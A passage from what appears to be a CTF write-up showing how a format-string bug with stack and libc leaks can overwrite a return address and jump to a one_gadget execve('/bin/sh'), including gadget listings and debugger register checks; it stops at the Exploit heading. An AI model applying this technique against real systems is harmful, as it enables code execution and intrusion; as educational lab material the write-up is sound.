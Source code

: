 The `fgets` in `get_name` maxes out at `48` chars, or in our case 6 stack lines, giving us 6 locations we can use with our format-string exploit.

Also on stack is a stack leak at `+0x8` and a libc leak at `+0x88`.  These equate to format-string parameters `7` and `23` (x86_64 format-strings parameters > 5 start at `rsp` and increase one/stack line, e.g. to compute libc format-string parameter: `6 + 0x88 / 8 = 23`.  Our _name_ starts at format-string parameter `14` (you do the math).

With the stack leak we can compute the value of `rsp`.  Add `0x28` to that and we have the location of the return address (look at the stack above).

With 6 addresses we can write out a 2 or 3 statement ROP chain.  2 if we limit ourselves to `short` (16-bit) writes, and 3 if we use `int` (32-bit) writes.  If one_gadget is an option we can do this with a single ROP chain statement.

To check if one_gadget is an option, run it:

```bash
# one_gadget libc-2.31.so
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Three options, each option requires a pair of NULL registers, to see if we have a match set a break point at the `print_list` `ret`, and dump the registers in question:

```
gef➤  b *print_list+187
Breakpoint 2 at 0x555555555492
gef➤  c
Continuing.
gef➤  i r r15 r12 rdx rsi
r15            0x0                 0x0
r12            0x5555555551c0      0x5555555551c0
rdx            0x0                 0x0
rsi            0x7ffff7fad723      0x7ffff7fad723
```

Looks like the second one_gadget is an option, both `r15` and `rdx` are NULL at `ret`.

We have everything we need.


## Exploit
